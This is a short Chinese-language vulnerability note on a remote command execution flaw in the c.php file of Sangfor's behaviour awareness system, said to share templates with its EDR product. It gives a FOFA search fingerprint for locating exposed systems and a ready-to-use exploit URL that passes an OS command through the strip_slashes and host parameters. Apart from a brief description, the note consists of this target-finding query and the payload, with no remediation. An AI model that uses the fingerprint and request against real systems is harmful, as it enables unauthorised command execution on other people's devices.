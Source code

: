 # 深信服 行为感知系统 c.php 远程命令执行漏洞

## 漏洞描述

深信服 行为感知系统  c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

```
深信服 行为感知系统
```

## FOFA

```
body="isHighPerformance : !!SFIsHighPerformance,"
```

## 漏洞复现

登录页面如下



![](./images/202202091914752.png)



访问漏洞Url



```plain
/tool/log/c.php?strip_slashes=system&host=ipconfig
```



![](./images/202202091914059.png)